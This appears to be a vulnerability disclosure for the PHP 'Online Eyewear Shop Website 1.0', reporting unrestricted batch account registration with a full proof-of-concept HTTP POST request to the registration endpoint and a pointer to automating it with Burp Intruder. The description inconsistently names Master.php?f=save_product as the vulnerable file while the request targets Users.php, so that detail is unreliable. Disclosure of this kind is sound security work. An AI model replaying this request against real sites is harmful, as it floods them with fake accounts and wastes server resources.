 ## Online eyewear store website has pi liang hu vulnerability

## Affected version: 
Online Eyewear Shop Website - 1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
/oews/classes/Users.php?f=registration

## Description:
The online eyewear store website 1.0 has an arbitrary user registration vulnerability in /oews/classes/Master.php?f=save_product. The attack parameter is email. 
As long as the emails are different, any number of accounts can be registered without restriction, resulting in server resource occupation.

Status: Moderate

POC
```
POST /oews/classes/Users.php?f=registration HTTP/1.1
Host: localhost
Content-Length: 976
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryarM6jeK1Qyv2eVDa
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/oews/register.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p65p1sp36htfqevfnhij1jvtie
Connection: close

------WebKitFormBoundaryarM6jeK1Qyv2eVDa
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryarM6jeK1Qyv2eVDa
Content-Disposition: form-data; name="firstname"

test
------WebKitFormBoundaryarM6jeK1Qyv2eVDa
Content-Disposition: form-data; name="middlename"

test
------WebKitFormBoundaryarM6jeK1Qyv2eVDa
Content-Disposition: form-data; name="lastname"

test
------WebKitFormBoundaryarM6jeK1Qyv2eVDa
Content-Disposition: form-data; name="gender"

Male
------WebKitFormBoundaryarM6jeK1Qyv2eVDa
Content-Disposition: form-data; name="email"

admi@qq2.com
------WebKitFormBoundaryarM6jeK1Qyv2eVDa
Content-Disposition: form-data; name="contact"

123
------WebKitFormBoundaryarM6jeK1Qyv2eVDa
Content-Disposition: form-data; name="password"

admin123
------WebKitFormBoundaryarM6jeK1Qyv2eVDa
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryarM6jeK1Qyv2eVDa--
```

Batch user registration can be performed through the Intruder module of burp
![CleanShot 2025-04-03 at 12 55 26@2x](https://github.com/user-attachments/assets/edd9c369-9933-4904-95bb-cb153f565e8b)
![CleanShot 2025-04-03 at 12 56 43@2x](https://github.com/user-attachments/assets/da4623a4-3f98-4e86-b8f6-abc78da95627)
![CleanShot 2025-04-03 at 12 57 08@2x](https://github.com/user-attachments/assets/c27f1c9d-e046-4022-9e91-4a9b19fd2ed4)






